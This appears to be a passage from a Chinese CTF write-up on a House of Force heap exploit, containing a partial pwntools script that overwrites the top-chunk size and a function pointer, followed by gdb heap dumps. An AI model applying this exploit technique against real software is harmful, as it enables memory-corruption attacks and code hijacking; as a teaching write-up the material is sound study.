 ```python
    r.recvuntil(":")
    r.sendline(name)
def remove(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))
def show():
    r.recvuntil(":")
    r.sendline("1")


magic = 0x400d49
raw_input("malloc item0")
additem(0x40,"AAAA")

#raw_input("modify item0,overite size of top chunk")
modify(0,0x50,"a"*0x40 + p64(0) + p64(0xffffffffffffffff))

#raw_input("add a large chunk,control top chunk")
additem(0x603010 - 0x603070 - 2*8 - 8,"BBBB")

#raw_input("return target,overwrite function ptr")
additem(0x20,p64(magic)*2)

#raw_input("exit")
r.sendline('5')
r.recvuntil("Your choice:")
print r.recvuntil("}")
```

## 3. 利用过程
### 1) 添加 item0
添加item0后，堆内存分布如下，0x63000 处的 chunk0 为 box 结构体，结构体中包含 2 个函数指针。0x603020 处的 chunk1 为刚申请用于存放 name 的空间，并且 chunk1 与 top chunk 相邻。    
```c++
struct box{
    void (*hello_message)();
    void (*goodbye_message)();
};
```

```sh
gdb-peda$ heapls
           ADDR             SIZE            STATUS
sbrk_base  0x603000
chunk      0x603000         0x20            (inuse)
chunk      0x603020         0x50            (inuse)
chunk      0x603070         0x20f90         (top)
sbrk_end   0x624000
gdb-peda$ x/20x 0x603000
0x603000:       0x0000000000000000      0x0000000000000021
0x603010:       0x0000000000400896      0x00000000004008b1
0x603020:       0x0000000000000000      0x0000000000000051
0x603030:       0x0000000000000000      0x0000000000000000
0x603040:       0x0000000000000000      0x0000000000000000
0x603050:       0x0000000000000000      0x0000000000000000
0x603060:       0x0000000000000000      0x0000000000000000
0x603070:       0x0000000000000000      0x0000000000020f91
0x603080:       0x0000000000000000      0x0000000000000000
0x603090:       0x0000000000000000      0x0000000000000000
```
